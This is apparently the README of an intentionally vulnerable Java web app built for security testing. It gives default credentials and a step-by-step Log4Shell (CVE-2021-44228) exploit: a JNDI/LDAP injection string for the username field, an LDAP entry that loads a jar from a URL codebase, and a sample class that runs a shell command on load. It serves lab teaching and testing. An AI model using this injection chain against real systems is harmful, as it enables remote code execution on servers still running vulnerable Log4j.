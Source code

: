# vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

Ensure the vulnerability works in versions of Java > 8 set the following property — JDK versions after JDKv8 disable class creation from URL codebases.

```
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```
Note, a codebase can be defined as a source, or a place, from which to load classes into a virtual machine. 

If you want to debug the in-memory ldap server, you can enable unboundid debug logging using:

```
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

Trigger the vulnerability by loading the LDAP entry using JNDI by supplying the following code injection into the *username* field of the `user-admin` page (other fields may work too!)

```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```


The in-memory server has the following `javaNamingReference` object which will be looked up by the JNDI service invoked by the log4j substition code path:

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceExploit
cn: Java Class
sn: Class
uid: java-ref
```

The URLClassLoader will lookup the `uk.ac.jisc.cybersec.rce.RceExploit` first from the local classpath (where it does not exist), then from the URL codebase provided by the LDAP entry. This triggers the download of the referenced `jar` file, and the instatiation of the `uk.ac.jisc.cybersec.rce.RceExploit` class. Triggering the static method in the malicious class:

```
package uk.ac.jisc.cybersec.rce;

/** Sample RCE exploit class.*/
public class RceExploit {
	
	static {
		try {
			System.out.println("Attempting takeover...");
			Runtime.getRuntime().exec("touch /Users/philsmart/test.txt");
			System.out.println("Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```
